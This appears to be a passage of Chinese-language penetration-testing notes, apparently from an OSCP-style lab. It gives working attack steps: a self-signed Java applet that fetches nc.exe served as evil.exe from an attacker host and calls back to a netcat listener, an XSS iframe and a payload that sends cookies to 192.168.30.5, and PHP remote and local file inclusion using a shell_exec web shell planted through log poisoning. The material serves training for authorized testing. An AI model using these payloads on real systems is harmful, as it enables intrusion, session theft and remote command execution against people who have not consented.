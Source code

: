 
编译上述脚本:
```
javac java.java
echo "Permissions: all-permissions" > /root/manifest.txt
jar cvfm Java.jar /root/manifest.txt Java.class
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
Haxor
Ownage
offsec
127.0.0.1
localhost
US
yes
/usr/local/lib/jdk1.8/bin/jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar SignedJava.jar Java.jar signapplet
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" > value="http://192.168.30.5/evil.exe"></applet>' > /var/www/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/evil.exe
```
攻击机侦听4444端口:
nc -lvp 4444
当目标机访问 http://192.168.30.5/java.html 时,若点确定则会回连到攻击机



# web应用攻击

## xss

在目标机留xss:  <iframe SRC="http://192.168.30.5:81/report" height = "0" width="0"></iframe>
攻击机侦听81端口:   nc -lvp 81
当目标触发xss时,会连接到攻击机的81端口

获取cookie的payload:    <script>new Image().src="http://192.168.30.5:81/bogus.php?output="+doucument.cookie;</script>


## php文件包含

```
echo '<?php echo shell_exec("ipconfig");?>' > /var/www/evil.txt
service apache2 start
tail -f /var/log/apache2/access.log
```
包含 http://192.168.30.5/evil.txt%00 即可看到执行命令的结果

进行远程文件包含时,需要:
allow_url_fopen = on
allow_url_include = on

若上述选项关闭,尝试本地文件包含:
nc -nv 192.168.30.35 80
<?php echo shell_exec($_GET['cmd']);?>
包含cmd=ipconfig&file=../../../apache/logs/access.log%00
